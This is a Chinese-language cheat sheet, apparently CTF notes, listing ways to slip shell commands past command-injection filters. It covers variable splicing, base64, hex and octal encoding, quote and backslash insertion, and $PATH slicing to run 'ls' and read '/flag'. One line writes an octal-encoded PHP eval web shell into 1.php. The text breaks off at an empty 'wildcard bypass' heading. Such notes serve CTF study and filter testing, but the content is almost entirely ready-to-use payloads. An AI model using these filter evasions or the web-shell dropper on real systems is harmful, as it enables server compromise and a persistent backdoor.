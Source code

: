 - 拼接绕过

  ```
  #执行ls命令：
  a=l;b=s;$a$b
  #cat flag文件内容：
  a=c;b=at;c=f;d=lag;$a$b ${c}${d}
  #cat test文件内容
  a="ccaatt";b=${a:0:1}${a:2:1}${a:4:1};$b test
  ```

- 编码绕过

  ```
  #base64
  echo "Y2F0IC9mbGFn"|base64 -d|bash  ==> cat /flag
  echo Y2F0IC9mbGFn|base64 -d|sh      ==> cat /flag
  #hex
  echo "0x636174202f666c6167" | xxd -r -p|bash   ==> cat /flag
  
  $(printf "\154\163") ==>ls
  $(printf "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67") ==>cat /flag
  {printf,"\x63\x61\x74\x20\x2f\x66\x6c\x61\x67"}|\$0 ==>cat /flag
  #i也可以通过这种方式写马
  #内容为<?php @eval($_POST['c']);?>
  ${printf,"\74\77\160\150\160\40\100\145\166\141\154\50\44\137\120\117\123\124\133\47\143\47\135\51\73\77\76"} >> 1.php
  ```

- 单引号和双引号绕过

  ```
  c'a't /flag
  c"a"t /flag
  ```

- 反斜杠绕过

  ```
  ca\t /flag
  ```

- 通过$PATH绕过

  ```
  #echo $PATH 显示当前PATH环境变量，该变量的值由一系列以冒号分隔的目录名组成
  #当执行程序时，shell自动跟据PATH变量的值去搜索该程序
  #shell在搜索时先搜索PATH环境变量中的第一个目录，没找到再接着搜索，如果找到则执行它，不会再继续搜索
  echo $PATH 
  /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
  `echo $PATH| cut -c 8,9`t test
  $(echo $PATH| cut -c 8,9)t flag
  
  反引号和$()都起命令替换作用
  ```

- 通配符绕过
